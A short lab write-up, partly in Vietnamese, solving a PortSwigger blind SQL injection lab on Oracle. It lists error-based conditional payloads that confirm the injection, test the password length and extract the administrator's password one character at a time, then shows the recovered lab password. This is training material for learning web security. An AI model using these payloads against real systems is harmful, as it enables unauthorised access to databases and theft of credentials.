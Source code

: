 # Target Goal: 

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

# Recon:

Bước đầu kiểm tra điều kiện và phiên bản của SQL của server đang dùng 

![image](https://github.com/vanniichan/Portswigger/assets/112863484/cd6dff27-e26c-429c-969e-62db5a3c97f5)
![image](https://github.com/vanniichan/Portswigger/assets/112863484/da1b9cdc-d282-412f-91b7-5ebf076b9fbc)

`' AND (SELECT CASE WHEN 1=1 THEN TO_CHAR (1/0) ELSE 'a' END FROM dual)='a --a`

Tiếp theo là bước kiểm tra độ dài và mật khẩu

`' AND (SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR (1/0) ELSE 'a' END FROM users WHERE username= 'administrator')='a --a`

![image](https://github.com/vanniichan/Portswigger/assets/112863484/0ad5f5c2-65d1-456c-805b-20ba508dc1fa)

`' AND (SELECT CASE WHEN substr(password,1,1) ='a' THEN TO_CHAR (1/0) ELSE 'a' END FROM users WHERE username= 'administrator')='a --a (Oracle)`

![image](https://github.com/vanniichan/Portswigger/assets/112863484/cf468eed-f105-45dd-8bb5-a1b659784149)

Password: `6rou5dl8e12osxjff1zm`

# Flag:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/da5d1e4e-04e9-4445-b499-857cda735f4a)
